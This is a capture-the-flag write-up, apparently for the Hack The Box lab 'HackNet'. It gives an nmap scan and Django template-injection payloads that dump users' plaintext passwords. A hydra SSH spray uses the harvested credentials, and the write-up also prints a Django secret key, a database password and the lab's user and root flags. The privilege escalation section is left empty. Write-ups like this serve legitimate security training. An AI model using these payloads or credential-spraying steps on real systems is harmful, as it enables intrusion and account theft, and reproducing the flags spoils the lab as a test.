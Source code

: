 ```yaml
---
layout: default
title: HackNet
---
```


### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oN nmap.txt
```

![nmap results](image.png)

we can see port `22` for `ssh` and port `80` for `nginx`.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://hacknet.htb/
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `hacknet.htb` to our `/etc/hosts`:
```bash
10.10.11.85     hacknet.htb
```

### Exploiting SSTI to get IDOR which gives password for users

I scanned the whole pages, I tried to upload webshell for a while but for some reason it didn't work.
Later, i understood this is python framework behind the scenes, more specific `Django` framework, so it simply not executing `php` files.

So, i kept looking for vulnerabilities, until i noticed `SSTI` vulnerability.

First I set my name to {% raw %}{{7*7}}{% endraw %} 

![edit profile first](image-1.png)

Then, i want to http://hacknet.htb/explore, and put like to the first user i saw, in this case "glitch".
After putting like, i clicked the "likes" to see who put likes over this post, and saw that something went wrong.

![something went wrong](image-2.png)

I tried different payloads from https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python, to detect exactly what is the framework behind the scenes.

![payload all the things](image-3.png)

I tried `ih0vr{{364|add:733}}d121r`, and got back `ih0vr1097d121r`, which is pointing over `Django` framework behind the scenes.

![SSTI django](image-4.png)

The problem with that is that `DTL`, or `Django Template Langauge` is very strict, so i can't execute commands at all, or even include variables that are globals.
The only thing i can do is to include variables that are in context, which means the Template Engine uses on run.

First, i tried the `users` variable, because it probably exists, something that holds all the users on the page, to print their attributes and use their image. I sent this payload: {% raw %}{{ users }}{% endraw %}:

I got back this response:

![response](image-5.png)

Which after html decoding gave me:
```py
<QuerySet [<SocialUser: hexhunter>, <SocialUser: rootbreaker>, <SocialUser: netninja>, <SocialUser: shadowmancer>, <SocialUser: stealth_hawk>, <SocialUser: virus_viper>, <SocialUser: brute_force>, <SocialUser: {{ users.values }}>, <SocialUser: {{ users }}>]>
```

Okay, let's get the values, using {% raw %}{{ users.values }}{% endraw %}:

I got this long response:

![get users.values](image-6.png)

Which after decoding:
```py
<QuerySet [{'id': 2, 'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!', 'picture': '2.jpg', 'about': 'A seasoned reverse engineer specializing in binary exploitation. Loves diving into hex editors and uncovering hidden data.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 3, 'email': 'rootbreaker@exploitmail.net', 'username': 'rootbreaker', 'password': 'R00tBr3@ker#', 'picture': '3.jpg', 'about': 'Expert in privilege escalation and bypassing security measures. Always on the lookout for new zero-day vulnerabilities.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 13, 'email': 'netninja@hushmail.com', 'username': 'netninja', 'password': 'N3tN1nj@2024', 'picture': '13.png', 'about': 'Network security expert focused on intrusion detection and prevention. Known for slicing through firewalls with ease.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 16, 'email': 'shadowmancer@cypherx.com', 'username': 'shadowmancer', 'password': 'Sh@d0wM@ncer', 'picture': '16.png', 'about': 'A master of disguise in the digital world, using cloaking techniques and evasion tactics to remain unseen.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 20, 'email': 'stealth_hawk@exploitmail.net', 'username': 'stealth_hawk', 'password': 'St3@lthH@wk', 'picture': '20.jpg', 'about': 'Focuses on stealth operations, avoiding detection while infiltrating systems. A ghost in the machine.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 23, 'email': 'virus_viper@securemail.org', 'username': 'virus_viper', 'password': 'V!rusV!p3r2024', 'picture': '23.jpg', 'about': 'A malware creator focused on developing viruses that spread rapidly. Known for unleashing digital plagues.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 24, 'email': 'brute_force@ciphermail.com', 'username': 'brute_force', 'password': 'BrUt3F0rc3#', 'picture': '24.jpg', 'about': 'Specializes in brute force attacks and password cracking. Loves the challenge of breaking into locked systems.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 27, 'email': 'dindon@dind.on', 'username': '{{ users.values }}', 'password': 'dindon', 'picture': 'profile.png', 'about': '{{ 7*7 }} {% debug %} ${8*8}', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': True, 'two_fa': False}, {'id': 31, 'email': 'simple1@gmail.com', 'username': '{{ users.values }}\r\n', 'password': '1', 'picture': 'profile.png', 'about': '', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': True, 'two_fa': False}]>
```

This basically gave me the usernames and passwords of all users that put like over this page!
For example, `'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!'`.

Now, we'll use this python script to fetch all passwords and usernames, notice in the case above, we want no the username, rather the left side if `hexhunter@ciphermail.com`, the name of the user from the mail:
```py
{% include_relative dump_credentials.py  %}
```

And we got this list:
```bash
blackhat_wolf:Bl@ckW0lfH@ck
brute_force:BrUt3F0rc3#
bytebandit:Byt3B@nd!t123
codebreaker:C0d3Br3@k!
cryptoraven:CrYptoR@ven42
cyberghost:Gh0stH@cker2024
darkseeker:D@rkSeek3r#
datadive:D@taD1v3r
deepdive:D33pD!v3r
exploit_wizard:Expl01tW!zard
glitch:Gl1tchH@ckz
hexhunter:H3xHunt3r!
mikey:mYd4rks1dEisH3re
netninja:N3tN1nj@2024
packetpirate:P@ck3tP!rat3
phreaker:Phre@k3rH@ck
rootbreaker:R00tBr3@ker#
shadowcaster:Sh@d0wC@st!
shadowmancer:Sh@d0wM@ncer
shadowwalker:Sh@dowW@lk2024
stealth_hawk:St3@lthH@wk
trojanhorse:Tr0j@nH0rse!
virus_viper:V!rusV!p3r2024
whitehat:Wh!t3H@t2024
zero_day:Zer0D@yH@ck
```

Then, we can use hydra to trying all credentials:
```bash
┌──(agonen㉿kali)-[~/htb/HackNet]
└─$ hydra -C credentials.txt hacknet.htb ssh   
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-25 23:11:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking ssh://hacknet.htb:22/
[22][ssh] host: hacknet.htb   login: mikey   password: mYd4rks1dEisH3re
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-25 23:11:40
```
And we got valid credentials, `mikey \ mYd4rks1dEisH3re`

![ssh successful](image-7.png)

get the user flag:
```bash
mikey@hacknet:~$ cat user.txt 
8aae1b59fc1a16b621564434b4cb2eae
```

### ...... ?????

Inside `/var/www/HackNet/HackNet/settings.py`

I found this 
```py
SECRET_KEY = 'agyasdf&^F&ADf87AF*Df9A5D^AS%D6DflglLADIuhldfa7w'
```

and also this
```py
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'NAME': 'hacknet',
        'USER': 'sandy',
        'PASSWORD': 'h@ckn3tDBpa$$',
        'HOST':'localhost',
        'PORT':'3306',
    }
}
```

Then i connect using `mysql` (show command), and fetch table from hacknet db auth_users, get hash and trying to crack him (not working bro).

### Privilege Escalation to Root


**User Flag:*****`8aae1b59fc1a16b621564434b4cb2eae`***

**Root Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
